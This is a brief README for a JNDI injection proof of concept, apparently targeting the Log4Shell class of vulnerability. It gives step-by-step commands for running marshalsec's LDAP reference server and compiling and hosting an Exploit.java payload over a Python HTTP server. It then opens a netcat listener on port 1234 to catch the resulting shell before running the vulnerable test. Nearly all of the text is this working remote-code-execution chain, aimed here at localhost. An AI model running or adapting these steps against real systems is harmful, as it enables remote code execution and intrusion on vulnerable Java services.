 # jndi-poc
How to set up marshalsec's LDAP provider server:
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

How to set up web server hosting RCE payload:
cd exploit_class
javac Exploit.java #saved in Exploit.class
python3 -m http.server 80

Exploit.java sends a webshell to localhost port 1234.

Finally, nc -lvp 1234 and run mvn test.